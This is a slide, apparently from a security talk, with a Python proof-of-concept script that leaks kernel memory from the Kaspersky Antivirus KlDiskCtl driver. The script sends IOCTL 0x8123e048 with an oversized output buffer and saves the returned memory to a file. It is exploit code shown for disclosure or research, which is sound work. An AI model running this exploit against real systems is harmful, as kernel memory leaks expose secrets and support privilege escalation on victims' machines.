

# Kaspersky Antivirus
 Skrypt python leakujący pamięć z wykorzystaniem kldisk( KlDiskCtl )
def leak_memory():
	fileName = u'\\\\.\\KlDiskCtl'
	hFile = win32file.CreateFileW(fileName,
							  GENERIC_READ |GENERIC_WRITE,
							  0,
							  None,
							  OPEN_EXISTING, 0 , None, 0)

	ioctl = 0x8123e048
	inputBuffer = "A"*0x14
	inputBufferLen = len(inputBuffer)
	outBufferLen   = 0x1000

	print "Time to send IOCTL : 0x%x" % ioctl
	buf = win32file.DeviceIoControl(hFile, ioctl,inputBuffer,outBufferLen)
	buf = buf[inputBufferLen:]
	with file('outBuff.bin','wb') as f:
		f.write(buf)